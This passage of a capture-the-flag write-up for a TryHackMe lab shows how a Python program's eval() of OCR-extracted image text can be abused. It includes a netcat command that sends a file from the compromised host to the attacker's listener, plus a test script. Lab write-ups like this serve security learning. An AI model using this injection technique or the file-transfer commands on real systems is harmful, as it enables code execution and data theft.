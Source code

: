 Let's break it down:

- Option 1 is just a calculator, nothing weird
- **Option 2 is interesting, as it has an `eval()` sink (Dangerous function)**
- Option 3 is just showing the credits, nothing odd
- Option 4, well, exit the programme

**That being said, we should focus on option 2.**

After the animation is finished, it'll open image file `payload.png`, then using `pytesseract.image_to_string()` method to extract image's text. **Finally, execute `eval()` function from the extracted image's text.**

**So, our souce (User input) is the `payload.png` image file, and the sink is `eval(LISTED)`.**

**Armed with above information, we can create an image that contains a malicious command!**

**But first, let's transfer the `payload.png`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:01:56]
└> nc -lnvp 4444 > payload.png
listening on [any] 4444 ...

ramsey@unbaked:~$ nc 10.9.0.253 4444 < payload.png
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113100302.png)

**Then, we can write a python script to test the payload:**
```py
#!/usr/bin/env python3

from PIL import Image
import pytesseract

LISTED = pytesseract.image_to_string(Image.open('payload.png'))

print(LISTED)
print(eval(LISTED))
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:08:08]
└> python3 extract_string_from_image.py
2+2

4
```

Cool.

**Next, we can try to create an image that execute evil code:**

**`payload.png`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113103856.png)
